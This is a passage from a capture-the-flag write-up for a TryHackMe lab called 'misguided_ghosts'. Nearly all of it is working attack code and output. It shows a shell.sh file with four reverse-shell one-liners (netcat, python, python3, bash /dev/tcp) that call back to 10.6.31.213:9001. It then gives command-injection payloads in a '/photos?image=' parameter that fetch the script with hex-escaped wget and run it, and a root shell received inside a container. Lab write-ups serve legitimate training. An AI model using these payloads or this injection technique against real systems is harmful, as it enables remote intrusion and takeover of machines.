 ### Content of shell.sh
```console
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.6.31.213 9001 >/tmp/f

python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.6.31.213",9001));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'

python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.6.31.213",9001));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'

bash -i >& /dev/tcp/10.6.31.213/9001 0>&1
```

### Serving a HTTP Server
```console
local@local:~/Documents/tryhackme/misguided_ghosts$ python -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```
### Making a request to get the file
```html
/photos?image=/etc/passwd;CMD=$'\x20wget\x2010.6.31.213:8000/shell.sh';`$CMD`
```
And if we check the python server, we get a request for file shell.sh
```console
local@local:~/Documents/tryhackme/misguided_ghosts$ python -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
10.10.8.31 - - [20/Nov/2020 16:02:53] "GET /shell.sh HTTP/1.1" 200 -
```
Now lets run the script.

### Listening on the local box
```console
local@local:~/Documents/tryhackme/misguided_ghosts$ nc -nvlp 9001
Listening on 0.0.0.0 9001
```

### Executing the payload 
```html
/photos?image=/etc/passwd;CMD=$'\x20sh\x20shell.sh';`$CMD`
```
And if we check the netcat listener, we get a shell back.

```console
local@local:~/Documents/tryhackme/misguided_ghosts$ nc -nvlp 9001
Listening on 0.0.0.0 9001
Connection received on 10.10.174.16 39069
/bin/sh: can't access tty; job control turned off
/app # id
uid=0(root) gid=0(root) groups=0(root),1(bin),2(daemon),3(sys),4(adm),6(disk),10(wheel),11(floppy),20(dialout),26(tape),27(video)
```
We are already root but on the docker container. So, we have to find a way to be a root user on the host device.
